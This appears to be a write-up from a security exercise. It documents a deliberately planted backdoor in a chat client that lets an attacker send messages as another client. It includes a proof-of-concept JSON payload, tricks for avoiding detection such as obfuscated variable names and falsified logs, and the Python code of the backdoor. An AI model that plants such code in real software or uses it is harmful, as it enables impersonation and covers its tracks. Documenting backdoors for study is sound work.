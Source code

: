 # Backdoor 3: Client Spoof

## Description

This backdoor allows any malicious client to impersonate any other client known to the neighborhood. It enables them to send messages as another client, without alerting the impersonated client of this activity.

## Technical Details

When a client receives a private message, it attempts to decrypt and store it to be sent to the frontend. The backdoor expands on this functionality by checking for a JSON data structure within the message. If one is found and includes `type: 'banana_phone'`, it parses the rest of the message:

```
{
    "type": "banana_phone",
    "to": [<list: string: fingerprint>],
    "message": <string: real message>
}
```

- `to`: Contains a list of fingerprints that the 'real' message should be sent to.
- `message`: Contains the real message to be sent.
- The original recipient becomes the new sender.

The function then calls the existing `send_private_chat` message with these new details, as if it came from the client.

Crucially, the recipient never logs or saves the sent message, and explicitly changes the original received message to a random, innocuous message to avoid suspicion.

## Objectives

This backdoor violates several key security principles:

1. Authentication: Allows impersonation of other clients.
2. Integrity: Modifies message content without authorization.
3. Non-repudiation: Makes it impossible to prove who really sent a message.
4. Confidentiality: Allows unauthorized access to private communications.

## Exploitation Method (Proof of Concept)

1. Attacker identifies the fingerprint of the client they want to impersonate (Client 3) and the intended recipient (Client 4).

<figure align="center">
  <img src="appendix/Image%203.1.png" alt="Attacker selecting client to impersonate" width="300">
  <figcaption><em>Figure 3.1: Attacker selects client 3 to send to, noting down the fingerprint of client 4</em></figcaption>
</figure>

2. Attacker crafts a message to Client 3 with the following structure:
   ```json
   {
     "type": "banana_phone",
     "to": ["z+jFUevZW966ayOz90LUlPDbup5tUASkiAGsrBqmVgs="],
     "message": "This is client 1 appearing as client 3"
   }
   ```
3. Attacker sends this message to Client 3 using the normal private chat protocol.
4. Client 3's system processes this message, replacing the content with a random innocuous message in its own logs.

<figure align="center">
  <img src="appendix/Image%203.2.png" alt="Victim's client interface showing a harmless message" width="600">
  <figcaption><em>Figure 3.2: The victim's client interface showing a randomly selected harmless message, masking the attacker's covert message manipulation</em></figcaption>
</figure>

5. Client 3's system then sends the "real" message to Client 4, appearing to come from Client 3.
6. Client 4 receives a message that appears to be from Client 3, but was actually initiated by the attacker (Client 1).

<figure align="center">
  <img src="appendix/Image%203.3.png" alt="Real message sent to client 4" width="300">
  <figcaption><em>Figure 3.3: The real message is sent to client 4, appearing to be sent by client 3</em></figcaption>
</figure>

## Detection Challenges

- Code obfuscation using odd variable names (e.g., 'banana', 'spaghetti', 'pizza', 'carrot') makes the code harder to understand at a glance.
- The backdoor is hidden within real functions used by the protocol, making it blend in with legitimate code.
- The use of a special message type ('banana_phone') is not immediately suspicious and could be mistaken for a feature or Easter egg.
- The original message is replaced with random innocuous content, leaving no trace of the malicious activity in the sender's logs.
- The backdoor leverages existing message sending functions, making its activities appear as normal traffic.

## Code Snippet

```python
async def decrypt_and_store_message(self, data):
    # ... (code for decrypting and initial processing of the message)

    for idx, symm_key_b64 in enumerate(symm_keys_b64):
        try:
            # ... (code for decrypting the message with the current key)

            if my_fingerprint in participants:
                # ... (prepare the message entry)

                try:
                    banana = json.loads(message_text)
                    if banana.get('type') == 'banana_phone':
                        # Generate and store a random innocuous message
                        message_entry['message'] = random.choice(random_messages)
                        self.store_and_log_message(message_entry)

                        # Extract real recipients and message
                        spaghetti = banana.get('to', [])
                        pizza = banana.get('message', '')

                        # Process the recipient list
                        carrot = self.process_recipient_list(spaghetti)

                        # Remove sender and current client from recipients
                        carrot = [
                            fp for fp in carrot
                            if fp != sender_fingerprint and fp != my_fingerprint
                        ]

                        # Send the spoofed message
                        if carrot:
                            await self.send_chat_message(carrot, pizza, true_message=False)
                        else:
                            logger.error("No valid recipients for banana phone message")
                    else:
                        # Normal message handling
                        self.store_and_log_message(message_entry)
                except json.JSONDecodeError:
                    # Handle non-JSON messages
                    self.store_and_log_message(message_entry)
        except Exception as e:
            logger.error(f"Failed to decrypt message with key {idx}: {e}")

    # ... (handle case where message is not intended for this client)
```
